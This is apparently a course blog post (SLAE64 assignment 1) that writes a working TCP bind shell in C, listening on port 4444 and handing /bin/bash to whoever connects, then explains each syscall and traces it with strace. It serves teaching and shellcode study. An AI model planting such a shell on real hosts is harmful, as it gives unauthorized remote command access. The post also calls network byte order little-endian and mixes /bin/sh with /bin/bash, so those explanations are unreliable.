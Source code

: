 ```yaml
---
title: SLAE64 Assignment 1 - TCP Bind-Shell Shellcode
date: 2020-4-06
layout: single
classes: wide
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)


# Bindshell Analysis
## Bindshell.c
+ To better understand x64 shellcode, I first created a working bindshell in C.

### shellcode.c
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
  struct sockaddr_in ipSocketAddr = { 
    .sin_family = AF_INET, 
    .sin_port = htons(4444), 
    .sin_addr.s_addr = htonl(INADDR_ANY) 
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/bash", NULL, NULL);
}
```
### Compile Shellcode
```bash
root# uname -orm
5.3.0-amd64 x86_64 GNU/Linux
root# gcc bindshell.c -o bindshell
```

### Test Shellcode
#### Terminal 1
```bash 
root# ./bindshell

```
#### Terminal 2
```bash
root# nc 127.0.0.1 4444
whoami
root

```

### Function Analysis
1. Create a new Socket.
```c 
int socket(int domain, int type, int protocol); 
```
dl>
  <dt>int domain = AF\_INET</dt>
  <dd>IPv4 Internet protocols.</dd>

  <dt>int type = SOCK\_STREAM</dt>
  <dd>Provides sequenced, reliable, two-way, connection-based byte streams (TCP).</dd>
  <dt>int protocol = IPPROTO\_IP</dt>
  <dd>The protocol to be used with the socket.</dd>
  <dd>When there is only one protocol option within the address family (like in this case), the value `0` is used.</dd>
</dl>  
+ For complete details see: `man socket`  

2. Create an IP Socket Address structure.
```c
struct sockaddr_in {
  sa_family_t    sin_family; /* address family: AF_INET */
  in_port_t      sin_port;   /* port in network byte order */
  struct in_addr sin_addr;   /* internet address */
};
struct in_addr {
  uint32_t       s_addr;     /* address in network byte order */
}; 
```
+ `sa_family_t sin_family  = AF_INET`   
  - From Socket, we know that we will need to use the Address Family `AF_INET`  
+ `in_port_t sin_port      = htons(4444)`  
  - TCP Port 4444  
  - The `htons()` function converts our decimal integer to 16-byte little-endian hex (aka "network byte order")  
+ `struct in_addr sin_addr = htonl(INADDR_ANY)`   
  - All interfaces.  
  - The `htonl()` function converts our decimal integer to 32-byte little-endian hex.    
+ For complete details see: `man ip.7`  
```
3. Bind the IP Socket Address to Socket. 
```c
int bind(int sockfd, const struct sockaddr \*addr, socklen\_t addrlen);`
```
  + `sockfd = ipv4Socket`  
    - The socket file descriptor returned from `socket()` and saved as the variable `ipv4Socket`.  
  + `const struct sockaddr *addr = &ipSocketAddr`  
    - A pointer to the IP Socket Address structure `ipSocketAddr`.  
  + `socklen_t addrlen = sizeof(ipSocketAddr)`  
    - The byte length of our `ipSocketAddr` structure.  
    - `sizeof()` returns the length in bytes of the variable.  
  + For complete details see: `man bind`  
4. Listen for connections to the TCP Socket at the IP Socket Address.  
```c
int listen(int sockfd, int backlog);
```  
  + `int sockfd  = ipv4Socket`  
  + `int backlog = 0`   
    - This is for handling multiple connections.   
    - We only need to handle one connection at a time, therefor we will set this value to `0`.   
  + For complete details see: `man listen`  
5. Accept connections to the TCP-IP Socket and create a Client Socket.  
```c
int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
```  
  + `int sockfd = ipv4Socket`  
  + `struct sockaddr *addr = NULL`  
    - This structure is filled in with the address of the peer socket.  
  + `socklen_t *addrlen = NULL`  
    - When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.  
  + `int flags  = NULL`  
  + The function will return the new Socket File-Descriptor. Save as `clientSocket`  
  + For complete details see: `man accept`  
6. Transfer Standard-Input, Standard-Output, and Standard-Error to the client socket.  
```c
int dup2(int oldfd, int newfd);
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```   
  + For complete details see: `man dup2`  
7. Spawn a `/bin/sh` shell for the client, in the connected session.  
```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
execve("/bin/sh", NULL, NULL);
```  
  + `const char *pathname = "/bin/sh"`  
  + `char *const argv[] = NULL`  
  + `char *const envp[] = NULL`  
  + For complete details see: `man execve`  

### Trace System-Calls  
+ Use `strace` to see system calls as the `shellcode` executes.  
```bash 
root# strace ./bindshell
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
```  
+ We see that the `Socket File-Descriptor` for our socket   
```bash
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3, NULL, NULL

```
+ We can see it hangs at `accept(`. To keep it moving we connect to our bindshell with `nc 127.0.0.1 4444`.  
+ I removed all of the system-calls that were irrelevant from the system trace.  

```bash
accept(3, NULL, NULL)                   = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/bash", NULL, NULL)         = 0

```
